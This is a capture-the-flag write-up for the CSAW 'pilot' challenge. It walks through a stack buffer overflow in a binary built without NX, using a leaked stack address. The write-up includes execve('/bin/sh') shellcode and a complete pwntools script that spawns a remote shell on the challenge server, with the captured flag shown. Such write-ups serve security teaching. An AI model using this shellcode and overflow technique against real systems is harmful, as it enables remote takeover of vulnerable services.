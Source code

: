 # Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:
```
Can I take your order?

nc pwn.chal.csaw.io 8464
```

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.
![radare2](imgs/r2-read-add.png)

# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.

![bp-0x400ae5](imgs/bp-0x400ae5.png)

Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

```asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
```
nasm -fbin shellcode.nasm -o sc.bin
```
And generate a python friendly shellcode with hexdump:
```
hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
\x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05
```

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
```
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
